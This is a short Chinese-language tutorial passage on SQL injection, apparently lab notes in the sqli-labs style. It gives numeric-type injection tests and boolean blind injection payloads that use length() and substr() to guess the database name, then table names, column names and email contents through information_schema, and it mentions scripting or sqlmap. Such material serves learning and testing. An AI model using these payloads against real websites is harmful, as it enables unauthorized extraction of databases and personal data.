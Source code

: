


如果是数字型：

```
id=2 #原始请求
id=2' #页面出现异常，则进行下一步测试
id=2 and 1=1 #语句执行正常，返回数据与原始请求无任何差异
id=2 and 1=2 #语句执行正常，但无法查询出数据，and1=2始终为假，所以返回数据与原始数据有差异
```



### 布尔盲注

可能存在布尔盲注：

```
id=2 #原始请求
id=2' #页面不显示数据
```

布尔盲注就使用length去判断数据库长度

```
id=1' and length(database())==8 #
```

当试到显示数据，就表明长度正确

然后一个一个去试字符

```
?id=1' and substr(database(),1,1)='s' --+
```

可以写脚本，一位一位爆破

爆完库，就爆表

```
?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e' --+
```

爆段

```
?id=1' and substr((select column_name from information_schema.columns where table_name='emails' limit 0,1),1,1)='d' --+
```

爆内容

```
?id=1' and substr((select email_id from emails limit 0,1),1,1)='x' --+
```

这里可以写个脚本进行爆破

或者使用sqlmap进行布尔盲注

